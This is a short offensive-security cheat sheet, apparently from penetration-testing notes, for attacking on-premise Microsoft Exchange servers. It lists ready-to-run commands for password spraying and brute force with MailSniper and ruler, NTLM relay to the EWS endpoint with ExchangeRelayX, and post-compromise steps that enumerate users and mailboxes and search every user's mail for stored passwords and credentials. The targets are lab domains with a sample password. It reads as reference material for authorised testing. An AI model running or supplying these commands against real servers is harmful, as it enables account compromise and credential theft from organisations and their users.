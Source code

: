 

#### [](#header-4) Exchange Password Spray

```powershell
#https://github.com/dafthack/MailSniper.git

Invoke-PasswordSprayOWA -ExchHostname EXCH2012.m0chanAD.local -UserList .\users.txt -Password Winter2019


#https://github.com/sensepost/ruler

./ruler-linux64 -domain mc0hanAD.local --insecure brute --userpass userpass.txt -v

```



#### [](#header-4) ExchangeRelayX 

```powershell
#https://github.com/quickbreach/ExchangeRelayX

An NTLM relay tool to the EWS endpoint for on-premise exchange servers. Provides an OWA for hackers.


./exchangeRelayx.py -t https://mail.quickbreach.com

```



#### [](#header-4) Exchange Mailbox Post-Compromise

```powershell
#https://github.com/dafthack/MailSniper.git

Enumerate GlobalAddressList

Get-GlobalAddressList -ExchHostname EXCH2012.m0chanAD.local -Username jamie@m0chanAD.local -Password Winter2019

Enumerate AD Usernames

Get-ADUsernameFromEWS -Emaillist .\users.txt

Enumerate Mailbox Folders

Get-MailboxFolders -Mailbox jamie@m0chanAD.local

Enumerate Passwords & Credentials Stored in Emails

Invoke-SelfSearch -Mailbox jamie@m0chanAD.local

Enumerate Passwords & Credentials (Any Users) Requires DA or Exchange Admin

Invoke-GlobalMailSearch -ImpersonationAccount helenHR -ExchHostname Exch2012
```
